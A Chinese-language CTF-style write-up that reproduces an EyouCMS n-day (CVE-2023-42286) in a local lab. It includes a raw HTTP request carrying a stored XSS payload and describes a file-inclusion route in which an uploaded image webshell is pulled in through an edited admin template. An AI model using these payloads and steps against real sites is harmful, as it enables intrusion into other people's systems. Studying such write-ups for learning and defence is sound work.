# 0x01 前言

强网杯之后来看看玄武组有没有起舞(~~没有~~):cry:

# 0x02 question

## web1

是一个NDAY，[CVE-2023-42286](https://github.com/Nacl122/CVEReport/tree/main/CVE-2023-42286)

这里当时哥哥们直接就给秒了，所以我上课也没看了，现在起一个环境打打

```
https://www.eyoucms.com/rizhi/
```

解压之后发现昨天的附件一模一样，emm那我下啥，白下了

直接拖进VSCODE然后进终端

```
php -S localhost:8000
```



这边我们直接进后台

```
/login.php?s=Admin/login
```

emm验证码呢，奇怪，后来找了网上的教程(少之又少)发现我的搭建过程错了





这样子才成功所以直接建站是不行的

这里直接浮现两个漏洞(虽然我的版本对不上

### xss





```
POST /login.php?m=admin&c=Field&a=arctype_add&_ajax=1&lang=cn HTTP/1.1
Host: 127.0.0.6
Content-Length: 123
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
sec-ch-ua: "Chromium";v="130", "Google Chrome";v="130", "Not?A_Brand";v="99"
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua-mobile: ?0
Origin: http://127.0.0.6
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.6/login.php?m=admin&c=Field&a=arctype_add&lang=cn
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=30kilsdijei41p4dj4uftrdu3b; admin_lang=cn; home_lang=cn; ENV_UPHTML_AFTER=%7B%22seo_uphtml_after_home%22%3A0%2C%22seo_uphtml_after_channel%22%3A0%2C%22seo_uphtml_after_pernext%22%3A%221%22%7D; workspaceParam=arctype_index%7CField
Connection: close

title=%3Cimg+src%3D1+onerror%3Dalert(1)%3E&name=baozongwi&dtype=text&dfvalue=aaa&remark=aaaa&typeids%5B%5D=8&channel_id=-99
```



### 文件包含

回到主页看到



哥哥们找到了[CVE-2023-42286](https://github.com/Nacl122/CVEReport/tree/main/CVE-2023-42286)

直接跟着打就可以了





```
/uploads/allimg/20241105/1-24110519295BM.jpg
```

直接上传一个图片马，然后我们让他被解析就可以包含成功了

那么也就是最开始那张图我们要进入模版管理然后再编辑html使得其中包含我们的图片即可，不过这里有个小操作就是我们要进去**设置了密保**才能进入文件管理页面





查看前台



但是这里有个小烦的就是一定要域名才能上传图片



模版的问题直接进来找`template`



跟进之后发现，这个方法啥也没干(安全上)，而且最后还进行了模块的替换



但是为啥会解析呢





可以看到这里是直接写入了文件



跟进之后发现是直接包含的

